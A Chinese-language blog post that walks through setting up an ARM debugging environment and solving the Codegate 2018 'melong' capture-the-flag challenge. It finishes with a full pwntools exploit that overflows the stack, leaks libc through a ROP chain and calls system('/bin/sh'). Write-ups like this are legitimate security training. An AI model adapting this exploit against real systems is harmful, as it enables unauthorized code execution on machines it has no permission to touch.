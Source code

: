 ```yaml
---
layout:     post
title:      arm架构 pwn入门之路
subtitle:   学习arm架构下pwn题目的调试
date:       2020-11-16
author:     X1ng
header-img: mips.jpg
catalog: true
tags:
    - arm pwn
    - wp

---
```


要期中考试了，水一篇ARM

## 环境搭建

网上的师傅们都讲的很详细了

我是看着[这个师傅的博客](https://www.jianshu.com/p/a7e2da50263e)装的环境

### 安装qemu

```shell
sudo apt-get install qemu
sudo apt-get install qemu-system qemu-user-static binfmt-support
```

### 安装依赖

```shell
sudo apt-get install -y gcc-arm-linux-gnueabi
sudo apt-get install qemu libncurses5-dev gcc-arm-linux-gnueabi 
sudo apt-get install build-essential synaptic gcc-aarch64-linux-gnu 
#sudo apt-get install gdb-arm-none-eabi
#sudo apt-get install eclipse-cdt
```

### 安装gdb-multiarch

```shell
sudo apt-get install gdb-multiarch
```



## 例题复现

### Codegate2018_melong

题目有libc和ld文件

例行检查

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr6aescr7j30km07smyx.jpg)

32位的arm小端序程序，只开启了NX保护

调试与mips下差不多

```shell
qemu-arm-static -L ./ ./melong
```

或者与pwntools联动

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
from time import sleep
import sys
context.binary = "./melong"

if sys.argv[1] == "r":
    io = remote("localhost", 9999)
elif sys.argv[1] == "l":
    io = process(["qemu-arm", "-L", "./", "./melong"])
else:
    io = process(["qemu-arm", "-g", "1234", "-L", "./", "./melong"])
```

另一个shell

```
gdb-multiarch ./test 
target remote 127.0.0.1:1234
```

ida打开

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr5ukg64wj30u00uc148.jpg)

有个菜单，以为是堆题，实际上是栈溢出

需要先check后才能进行其他操作

函数比较多，漏洞在write_diary函数中

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr67ufzklj31d90u0ais.jpg)

write_diary函数的第一个参数控制无符号整数nbyte，也就是read可以向栈中写入的字节，可以从mian函数中看到，就是PT函数的返回值，进入PT函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr67jclbej31d30u0k28.jpg)

发现整型返回值可以由用户输入，但是要绕过`ptr == (void)exc2`的检查，追踪exc2发现对其操作是在check函数的子函数get_result函数里

check函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr6sekcsjj31db0u0wql.jpg)

get_result函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr7ayqklfj30u01wbayd.jpg)

check函数限制只能check两次，而这个exc2应该是保存第二次check后bmi值的地方，要实现分配的chunk地址相等似乎有些困难，而且如果分配一个比较大的数字，需要等待sleep函数执行很久

但是看PT函数中的分支

```c
if ( ptr == (void *)exc2 )
  {
    puts("Okay, start to exercise!");
    for ( i = 0; i < (signed int)size; ++i )
    {
      puts("you are getting healthy..");
      sleep(1u);
    }
    free(ptr);
    v0 = size;
  }
```

在for循环的条件中用了强制类型转换，将size转换为无符号整数

如果让size等于-1的话，malloc会请求失败返回`NULL`，也就是0，而在第一次check之后exc2正好也是0

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr76g415pj310b0u07e9.jpg)

即绕过检查，又不用等待sleep函数，在write_diary函数中就可以随便写了

cyclic计算偏移后泄露地址

```python
check(1.76,103)
PT(-1)

pd = 'a'*0x54+p32(pop_r0_pc) + p32(elf.got['puts']) + p32(elf.plt['puts'])
pd += p32(elf.sym['main'])
write(pd)

io.sendlineafter(":", "6")
io.recvuntil("See you again :)\n")

libc.address = u32(io.recvn(4)) - libc.sym['puts']
print hex(libc.address)

io.interactive()
```

发现程序会崩溃，是因为puts函数在返回的时候并不是`pop pc`，而是`pop	{r4, r5, r6, r7, r8, r9, r10, pc}`

所以需要在前面补充一些垃圾数据,才能返回main函数

```python
check(1.76,103)
PT(-1)

pd = 'a'*0x54+p32(pop_r0_pc) + p32(elf.got['puts']) + p32(elf.plt['puts'])
pd += p32(0)*7+p32(elf.sym['main'])
write(pd)

io.sendlineafter(":", "6")
io.recvuntil("See you again :)\n")

libc.address = u32(io.recvn(4)) - libc.sym['puts']
print hex(libc.address)

io.interactive()
```

之后就是正常的rop了

exp:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
from time import sleep
import sys

context.binary = "./melong"
context.log_level = "debug"

if sys.argv[1] == "r":
    io = remote("",)
elif sys.argv[1] == "l":
    io = process(["qemu-arm", "-L", "./", "./melong"])
else:
    io = process(["qemu-arm", "-g", "1237", "-L", "./", "./melong"])

elf = ELF("./melong", checksec = False)
libc = ELF("./libc.so.6", checksec = False)

def check(height, weight):
    io.sendlineafter(":", "1")
    io.sendlineafter(" : ", str(height))
    io.sendlineafter(" : ", str(weight))

def PT(size):
    io.sendlineafter(":", "3")
    io.sendlineafter("?\n", str(size))

def write(payload):
    io.sendlineafter(":", "4")
    io.send(payload)

pop_r0_pc = 0x00011bbc

check(1.76,103)
PT(-1)

pd = 'a'*0x54 + p32(pop_r0_pc) + p32(elf.got['puts']) + p32(elf.plt['puts'])
pd += p32(0)*7 + p32(elf.sym['main'])
write(pd)

io.sendlineafter(":", "6")
io.recvuntil("See you again :)\n")

libc.address = u32(io.recvn(4)) - libc.sym['puts']
print hex(libc.address)

check(1.82, 60)
PT(-1)
pd = 'a'*0x54 + p32(pop_r0_pc) + p32(next(libc.search("/bin/sh"))) + p32(libc.sym['system'])
write(pd)
io.sendlineafter(":", "6")

io.interactive()
```





